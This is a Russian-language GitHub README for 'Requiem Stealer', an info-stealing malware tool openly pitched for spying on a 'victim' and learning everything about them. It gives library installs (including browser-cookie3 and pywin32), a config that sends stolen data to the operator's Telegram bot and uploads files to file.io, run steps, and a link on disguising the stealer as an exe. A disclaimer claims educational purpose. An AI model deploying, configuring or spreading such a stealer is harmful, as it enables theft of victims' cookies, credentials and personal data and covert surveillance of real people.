 ### [Download](https://minhaskamal.github.io/DownGit/#/home?url=https://github.com/Suggika/Requiem-Stealer)
---------------------------------
![](https://github.com/Suggika/Requiem-Stealer/blob/main/For%20GIt/Screenshot%202024-06-16%20004002.png)
### Если ты хочешь отыграться на своей жертве по полной и узнать про неё ВСЁ прямо к себе в ЛС в Telegram, то Requiem тебе поможет это сделать
---------------------------------
### Установка: 
### 1. Библиотеки Python
```
pip install Pillow
pip install browser-cookie3
pip install psutil
pip install pywin32
pip install pyTelegramBotAPI
```
---------------------------------
### 2. Редактирование файлов
### В файле bot.py
```
ADMIN_ID = "ID" # Ваш Telegram ID куда бот будет слать сообщения. Получить его => @chatIDrobot
FILE_IO_API_URL = "https://file.io" 
bot = telebot.TeleBot("TOKEN") # Токен бота который будет слать сообщения. Создать бота => @BotFather
```
---------------------------------
### Чтобы запустить бота:
### 1. Откройте Командую строку Windows(Win+R => cmd)
### 2. Скопируйте каждую строчку поочередно в cmd
### 3. Путь находиться тут:
![](https://github.com/Suggika/Requiem-Stealer/blob/main/For%20GIt/Screenshot%202024-06-16%20012433.png)
```
cd Ваш путь
python bot.py
```
---------------------------------
### Маскировка стиллера под exe файл
  ### • Читаем [статью](https://habr.com/ru/companies/vdsina/articles/557316/)
---------------------------------
### P.S Я НЕ НЕСУ ОТВЕТСТВЕННОСТИ ЗА ВАШИ ДАЛЬНЕЙШИЕ ДЕЙСТВИЯ И ИХ ПОСЛЕДСТВИЯ РЕПОЗИТОРИЙ СДЕЛАН ДЛЯ ОЗНАКОМИТЕЛЬНЫХ ЦЕЛЕЙ
  

